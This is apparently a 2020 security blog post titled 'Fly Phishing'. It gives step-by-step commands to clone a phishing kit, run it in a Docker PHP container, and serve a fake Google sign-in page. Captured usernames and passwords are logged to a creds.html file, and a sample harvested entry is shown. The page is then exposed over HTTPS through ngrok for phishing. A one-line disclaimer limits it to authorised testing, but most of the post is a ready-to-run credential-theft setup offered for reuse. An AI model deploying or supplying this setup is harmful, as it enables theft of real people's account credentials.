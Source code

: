 ```yaml
---
title: 'Fly Phishing'
slug: fly-phishing
date: 2020-01-13
autotoc: true
excerpt: true
layout: post.html
collection: all, linux, security, phishing
---
```


This article will walk through setting up a phishing server on the fly. 

**This is only legal to do with written permission from an organization or user. I am not liable for this information being misuse and I do not endorse illegal activity using these methods.**

## Quick Setup:

```bash
git clone https://github.com/heywoodlh/lokis-portal.git ~/Documents/lokis-portal
sudo chown -R 33:33 ~/Documents/lokis-portal/
docker run -d --name lokis-portal -p 80:80 -v "$HOME"/Documents/lokis-portal:/var/www/html php:7-apache-buster
```

Notice the change of ownership to user ID and group to 33. This is the user/group of the `www-data` user for the `php:7-apache-buster` Docker container and that user will need permission to write to `creds.html`.


![alt text](https://raw.githubusercontent.com/heywoodlh/the-empire.systems/master/resources/pictures/google-phishing.png "Google Phishing Page")


The Google phishing page will be available at [http://localhost/google/](http://localhost/google). The [root directory](http://localhost) has a list of the templates that are available for phishing with. At the time of writing only the Google phishing page is working, but maybe future me will be proactive and build out/fix the rest of the templates.

The phishing templates are available [at Github](https://github.com/heywoodlh/lokis-portal). Feel free to reuse them as needed.

### Get Creds:

When running the command above, a file called `creds.html` will be accessible in `~/Documents/lokis-portal/creds.html`. Whenever a login occurs, that file will populate with logs. For example:

```bash
2020-01-13 11:52:25pm: accounts.google.com: 172.17.0.1 --- testing --- password --- Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
```




### Serve Via HTTPS:

Use Ngrok or a reverse proxy to easily serve the web page via HTTPS. For example, with Ngrok:

```bash
ngrok http 80
```

This will provide you with an HTTPS link that you could phish from.

